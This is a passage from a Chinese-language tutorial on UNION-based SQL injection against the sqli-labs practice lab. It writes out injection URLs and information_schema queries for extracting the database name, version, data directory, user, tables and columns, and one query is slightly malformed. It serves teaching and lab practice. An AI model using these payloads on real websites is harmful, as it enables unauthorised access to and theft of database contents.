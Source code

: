 URL:localhost:8081/sqli-labs/Less-1/？id=-1'+union+select+1，database()，3 –+

在上面的 URL 中，我们在注入查询中使用了“database()”函数而不是“2”来获取当前的数据库名称，这里是“security”。下面，我们提到了一些提取信息的常用 SQL 函数。

*   version(): 获取 SQL 的当前版本。
*   @@datadir: 获取 SQL 数据库所在的目录。
*   User()或 current_user: 获取创建或管理数据库的用户。

假设您想要提取表名、列名和字段的信息。在这种情况下，您可以使用名为“information_schema”的数据库中的特定表，该数据库维护所有用户创建的数据库、表和列的元数据。

我们将使用下面的查询从当前数据库中提取表格。

```
SELECT table_name FROM information_schema.tables from table_schema=database() LIMIT 0,1;
```

这将返回当前数据库中的表名，在 LIMIT 子句后递增第一个参数。

![](img/91672efd4c846dfe3cb0520ba32c952c.png)

URL:localhost:8081/sqli-labs/Less-1/？id=-1'+union+select+1，table_name，3+from+information _ schema . tables+where+table _ schema = database()+limit+0，1 –+

您也可以使用‘information _ schema’数据库中的‘columns’表从指定的表中获取列名。

```
SELECT column_name FROM information_schema.columns WHERE table_name = <specific_table_name> LIMIT 0,1;
```

与表名一样，您也可以从指定的表中获取列名，并可以遍历表的所有行“columns:”:

![](img/5bcc43c0d997d2146fe7a3e3a26ac715.png)

